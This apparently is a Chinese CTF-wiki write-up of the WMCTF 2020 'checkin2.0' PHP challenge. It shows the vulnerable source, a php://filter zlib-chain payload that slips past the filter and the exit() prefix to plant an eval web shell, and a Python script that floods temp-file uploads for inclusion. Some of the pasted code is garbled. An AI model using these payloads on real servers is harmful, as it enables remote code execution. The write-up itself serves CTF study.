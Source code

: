 WMCTF 2020 checkin2.0
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



```
<?php
2 //PHP 7.0.33 Apache/2.4.25
3 error_reporting(0);
4 $sandbox = '/var/www/html/' . md5($_SERVER['HTTP_X_REAL_IP']);
5 @mkdir($sandbox);
6 @chdir($sandbox);
7 highlight_file(__FILE__);
8 if(isset($_GET['content'])) {
9      $content = $_GET['content'];
10     if(preg_match('/iconv|UCS|UTF|rot|quoted|base64/i',$content))
11         die('hacker');
12     if(file_exists($content))
13         require_once($content);
14         echo $content;
15 file_put_contents($content,'<?php exit();'.$content);
16 }
```

源代码直接给出，代码审计file_put_contents+require_once，我们尝试用file_put_contents写入文件然后用require_once包含然后拿到权限或代码执行。

如果没有明面上的过滤和后台的对url编码的过滤，那么会比较简单，但这里有过滤

一共有三天思路

1.php 7.0.33临时文件包含然后爆破出保存的临时文件，最后getshell

2.伪协议是会进行一次urldecode，利用二次编码绕过（没实现出来）

3.zlib的压缩加解压绕过中间过程的过滤。

`php://filter/zlib.deflate|string.tolower|zlib.inflate|?>/resource=aaa.php`

直接摆出payload，利用php中的过滤器（题目中的过滤就是伪协议里面的过滤）

我们来尝试进行一下分析。

content=`php://filter/zlib.deflate|string.tolower|zlib.inflate|?>/resource=aaa.php`

首先通过过滤。

file不存在开始写文件

文件名称为aaa.php(伪协议),文件内容为<?php exit();php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php

eval($_GET[1]);?>/resource=Cyc1e.php

在对它进行包含的时候实际会执行两端php代码<?php exit();php://filter/zlib.deflate|string.tolower|zlib.inflate|?>

和<?php eval($_GET[1]);?>再输出一小段 /resource=Cyc1e.php（没有进入php执行的代码块。）相当于对最后的文件做绕过。

最后传参1即可进行代码执行。

官方wp临时文件包含的脚本：

```
1 import requests
2 import string
3 import itertools
4
5 charset = string.digits + string.letters
6
7 host = "web_checkin2.wmctf.wetolink.com"
8 port = 80
9 base_url = "http://%s:%d" % (host, port)webweb
10
11
12 def upload_file_to_include(url, file_content):
13 files = {'file': ('evil.jpg', file_content, 'image/jpeg')}
14 try:
15 response = requests.post(url, files=files)
16 except Exception as e:
17 print e
18
19 def generate_tmp_files():
20 file_content = '<?php system("xxxxxxxx");?>'
phpinfo_url = "%s/?
content=php://filter/write=string.strip_tags/resource=Cyc1e.php" % (
21
22 base_url)
23 print phpinfo_url
24 length = 6
25 times = len(charset) ** (length / 2)
26 for i in xrange(times):
27 print "[+] %d / %d" % (i, times)
28 upload_file_to_include(phpinfo_url, file_content)
29
30 if __name__ == "__main__":
31 generate_tmp_files()

```

https://cyc1e183.github.io/2020/04/03/%E5%85%B3%E4%BA%8Efile_put_contents%E7%9A%84%E4%B8%80%E4%BA%9B%E5%B0%8F%E6%B5%8B%E8%AF%95/



https://www.leavesongs.com/PENETRATION/php-filter-magic.html

放上一篇文章。
